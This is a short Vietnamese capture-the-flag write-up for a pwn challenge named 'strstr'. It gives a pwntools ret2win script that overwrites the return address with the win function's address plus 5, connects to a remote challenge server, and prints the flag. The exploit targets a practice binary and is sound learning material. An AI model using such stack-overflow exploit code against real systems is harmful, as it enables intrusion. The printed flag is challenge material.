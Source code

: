 # strstr.
## Hướng giải.
![1702830406056](image/strstr/1702830406056.png)
![1702830422065](image/strstr/1702830422065.png)
![1702830429563](image/strstr/1702830429563.png)
- Bài này ret2win đơn giản nhưng hàm `filter` nó sẽ check và so sánh với 1 cái gì đấy.
- Nhưng mà mình rùa đét mình tìm đc cái bug bypass đc hàm `filter` lun :Đ .
```
#!/usr/bin/python3

from pwn import *

exe = ELF('chall', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x00000000004013c1
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('103.162.14.116', 12005)
else:
        p = process(exe.path)

GDB()
payload = b'a'*56 + p64(exe.sym['win'] + 5)
sla(b"Do you want to play. Let's play\n", payload)

p.interactive()

```
- Kiếm offset rồi làm như ret2win cơ bản thui , script của mình cho win + 5 theo bản năng ai ngờ rùa pass lun hàm `filter` :)) .
![1702831195909](image/strstr/1702831195909.png)
`FLAG: KCSC{bypass_strstr_by_null_byte}`